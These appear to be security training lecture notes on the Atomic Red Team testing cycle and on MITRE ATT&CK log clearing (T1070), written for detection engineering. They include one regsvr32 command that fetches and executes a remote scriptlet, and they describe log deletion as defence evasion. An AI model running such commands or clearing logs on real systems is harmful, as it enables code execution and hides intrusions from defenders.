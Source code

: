# Lecture Notes: Log Clearing

## Atomic Testing Cycle

**Why**
- Why should we perform the Atomic Testing Cycle?

**What**
- What is the Atomic Testing Cycle?
  - Getting Started Testing with Atomic Tests
    - We suggest a phased approach to running a test and evaluating your results:
      1. Select a test
      1. Execute Test
      1. Collect Evidence
      1. Develop Detection
      1. Measure Progress
    - Best Practices
      - Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision.
      - Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR solution in place, and that the endpoint is checking in and active.
      - Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.
    - **Select a test**
      - Select one or more Atomic Tests that you plan to execute.
    - **Execute Test**
      - In this example we will use Technique T1218.010 "Regsvr32" and Atomic Test "Regsvr32 remote COM scriptlet execution" (an RCE attack). This particular test is fairly easy to exercise since the tool is on all Windows workstations by default.
      - The details of this test, which are located [here](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md), describe how you can test your detection by simply running the below command:

        ```
        regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct scrobj.dll
        ```

    - **Collect Evidence**
      - What does your security solution observe?
        - You may see a file modification in the user’s profile.
        - You may detect network connections made by regsvr32.exe to an external IP.
        - There may be an entry in the proxy logs.
        - You may observe the scrobj.dll loading on Windows.
        - Or you might not observe any behavior on the endpoint or network.
      - This is why we test! We want to identify visibility gaps and determine where we need to make improvements.
    - **Develop Detection**
      - So you executed the test and none of your defenses fired – that’s why we test! Based on your observations and detection capabilities, it is time to use what you have to try to detect this event in your environment.
      - Once the detection is built, it is time to validate that the detection is working and that it is appropriately tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe without any suppression, you are going to be digging out from a mountain of false positives. But if you write it too narrow and it only detects regsvr32.exe with the exact command line `/s /u /i` then all an attacker has to do is slightly modify their command line to evade your detection.
      - Try detecting `regsvr32.exe /i` for suspicious activity.
    - **Measure Progress**
      - One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps.

**How**
- The Atomic Red Team project accepts public contributors (open-source style) at https://atomicredteam.io/contributing
- Atomic Philosophy
  - "Atomic Red Team welcomes all types of contributions as long as it is mapped to MITRE ATT&CK. A few guidelines:
  - Tests are made to be “easy”. If your Atomic Test is complicated and requires multiple external utilities/packages/Kali, we may ask that you simplify it.
  - TEST YOUR ATOMIC TEST! Be sure to run it from a few OSes/platforms before submitting a pull request to ensure everything is working correctly.
  - If sourcing from another tool/product (ex. generated command), be sure to cite it in the test’s description." -Atomic Red Team > Contributing

## Log Clearing

**Why**
- Why would an adversary want to delete logs?
  - Covering tracks
  - Damage integrity of log files
  - Part of the "defense evasion" tactic

**What**
- What is log clearing?
  - "Adversaries may delete or alter generated artifacts on a host system, including logs or captured files such as quarantined malware. Locations and format of logs are platform or product-specific, however standard operating system logs are captured as Windows events or Linux/macOS files such as Bash History and /var/log/*.
  - These actions may interfere with event collection, reporting, or other notifications used to detect intrusion activity. This that may compromise the integrity of security solutions by causing notable events to go unreported. This activity may also impede forensic analysis and incident response, due to lack of sufficient data to determine what occurred." -[MITRE ATT&CK T1070](https://attack.mitre.org/techniques/T1070/)
  - Example of log clearing:
    - S0089, a malware toolkit called BlackEnergy, uses a tool called KillDisk to delete Windows Event Logs ([Ref. WeLiveSecurity](https://www.welivesecurity.com/2016/01/03/blackenergy-sshbeardoor-details-2015-attacks-ukrainian-news-media-electric-industry/))
  - ATT&CK details
    - ID: T1070.001
    - Sub-technique of: T1070
    - Tactic: Defense Evasion
    - Platforms: Windows
    - System Requirements: Clearing the Windows event logs requires Administrator permissions
    - Permissions Required: Administrator
    - Data Sources: Command: Command Execution, Process: OS API Execution
    - Defense Bypassed: Anti Virus, Host Intrusion Prevention Systems, Log Analysis
    - Version: 1.0
    - Created: 28 January 2020
    - Last Modified: 29 March 2020
  - Log rotation can be used operationally to keep file sizes down

**How**
- How can an adversary clear logs?
- How can we reproduce this in our lab environment?
